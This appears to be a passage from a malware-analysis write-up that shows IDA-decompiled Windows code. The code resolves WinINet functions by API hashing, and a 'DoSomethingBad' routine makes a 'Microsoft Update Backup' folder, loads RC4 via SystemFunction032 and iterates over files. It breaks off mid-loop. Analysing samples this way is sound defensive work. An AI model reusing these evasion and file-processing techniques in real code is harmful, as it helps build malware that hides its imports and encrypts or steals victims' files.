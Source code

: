 ```cpp=
             && (dll_name[6] == 't' || dll_name[6] == 'T') )// import wineinet library
      {
        exportTable_3 = (dll_base + getNtHdrs(dll_base)->OptionalHeader.DataDirectory[0].VirtualAddress);
        num_of_names_3 = exportTable_3->NumberOfNames;
        name_array_3 = dll_base + exportTable_3->AddressOfNames;
        name_ordinal_3 = dll_base + exportTable_3->AddressOfNameOrdinals;
        func_array_3 = dll_base + exportTable_3->AddressOfFunctions;
        for ( m = 0i64; m < num_of_names_3; ++m )
        {
          api_name_3 = (dll_base + *&func_array_3[4 * *&name_ordinal_3[2 * m]]);
          case_3 = search_case(dll_base + *&name_array_3[4 * m]);
          switch ( case_3 )
          {
            case 0x8261F0DF5FDC0887i64:
              InternetOpenA = api_name_3;
              break;
            case 0xE726A35A86C7641Ci64:
              InternetOpenUrlA = api_name_3;
              break;
            case 0x6F4E79C87F04F3E6i64:
              InternetReadFile = api_name_3;
              break;
            case 0x2DF8494D5C13046i64:
              InternetCloseHandle = api_name_3;
              break;
          }
        }
      }
    }
  }
  return 0i64;
}
```
:::
:::spoiler IDA DoSomethingBad
```cpp=
void __stdcall DoSomethingBad()
{
  HMODULE LibraryA_0; // rax
  HANDLE FirstFileA; // [rsp+20h] [rbp-188h]
  const void *space; // [rsp+30h] [rbp-178h] BYREF
  DWORD fileSize; // [rsp+38h] [rbp-170h] BYREF
  struct _WIN32_FIND_DATAA lpFindFileData; // [rsp+40h] [rbp-168h] BYREF
  char folderName[24]; // [rsp+180h] [rbp-28h] BYREF

  strcpy(folderName, "Microsoft Update Backup");
  if ( (CreateDirectoryA(folderName, 0i64) || GetLastError() == ERROR_ALREADY_EXISTS) && !(unsigned int)InternetConnect() )
  {
    LibraryA_0 = LoadLibraryA_0(aAdvapi32);
    SystemFunction032 = (__int64 (__fastcall *)(_QWORD, _QWORD))GetProcAddress(LibraryA_0, ProcName);
    FirstFileA = FindFirstFileA(FileName, &lpFindFileData);
    if ( FirstFileA != (HANDLE)-1i64 )
    {
      do
      {
        space = 0i64;
        if ( (lpFindFileData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) == 0
          && !(unsigned int)Create_Read_File(lpFindFileData.cFileName, (LPVOID *)&space, &fileSize) )
        {
```